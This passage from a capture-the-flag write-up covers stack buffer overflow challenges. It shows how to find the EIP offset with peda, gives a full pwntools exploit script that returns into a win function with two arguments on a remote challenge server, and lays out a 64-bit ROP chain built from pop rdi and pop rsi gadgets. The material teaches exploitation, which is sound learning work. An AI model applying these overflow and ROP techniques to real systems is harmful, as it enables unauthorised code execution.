 Finding the offset is simple enough and there are many ways to do it. Personally, I'm a big fan of `pattern_create` and `pattern_offset`. This functionality comes preinstalled with [peda](https://github.com/longld/peda). These scripts are really easy to use. When in gdb (with peda), just type `pattern_create 200 input`, which will create a file called `input`. Then run with `r < input`. The program will segfault, and all you have to do is feed the contents of the `EIP` register into `pattern_offset`. Using this method, we can see that it takes 44 bytes to fill the buffer and begin to overwrite `EIP`.

The second step is even easier. Just copy the address of `win` (`0x08049276`) from the output of `info functions` in gdb.

Now that we have everything we need, all that's left is to assemble and send our payload:
```python
from pwn import *

# f = process('./sbo32')
f = remote('sbo01.westus2.azurecontainer.io', 8080)

win_addr = p32(0x8049276)
arg1 = p32(0x1337c0d3)
arg2 = p32(0xacc01ade)

payload = b''
payload += b'A' * 36 # fill the 36-byte buffer
payload += b'B' * 8  # overwrite stuff to get to EIP offset
payload += win_addr  # fil EIP with win address
payload += b'C' * 4  # pad out ret address
payload += arg1      # first argument
payload += arg2      # second argument

f.recvline()

f.sendline(payload)

print(f.recvline())
```

## SBO-args-64
Just like `SBO-args-32`, we need to overflow the buffer in the `main` function and pass two arguments to `win`: `0x1337c0d3` and `0xacc01ade`. Being 64-bit this challenge is very similar to its 32-bit counterpart, but with a few key differences:
*  Addresses are 8 bytes instead of 4
*  function arguments are passed through registers instead of the stack

That first difference is easy enough to deal with: just make addresses longer. It's the second difference that can be really tricky. Since arguments are passed from registers, we need a way to overwrite the correct registers. [x64 calling conventions](https://aaronbloomfield.github.io/pdr/book/x86-64bit-ccc-chapter.pdf) are something worth reading about, but for our purposes we just need to know that the first 2 arguments to a function are read from `RDI` and `RSI` in that order. To accomplish this, we need to find two small snippets of assembly called [ROP gadgets](https://en.wikipedia.org/wiki/Return-oriented_programming), one to pop RDI and one to pop RSI:
```
$ ROPgadget --binary sbo64 | egrep "rdi|rsi"
0x0000000000401186 : or dword ptr [rdi + 0x404068], edi ; jmp rax
0x0000000000401373 : pop rdi ; ret
0x0000000000401371 : pop rsi ; pop r15 ; ret
```
Both of these gadgets call `ret` after popping from the stack, which allows us to chain them together. At this point, our exploit works something like this:
1. Fill the buffer with 44 bytes
2. Overwrite the space between the buffer and `RIP`, the return address, with 12 bytes
3. Fill `RIP` with the location of our first gadget, which will pop the top of the stack into `RDI`
4. Put our first argument at the top of the stack so it gets popped by the first gadget
5. Fill the return address of the first gadget with the location of the second gadget
6. Put our second argument at the top of the stack so it gets popped into `RSI`
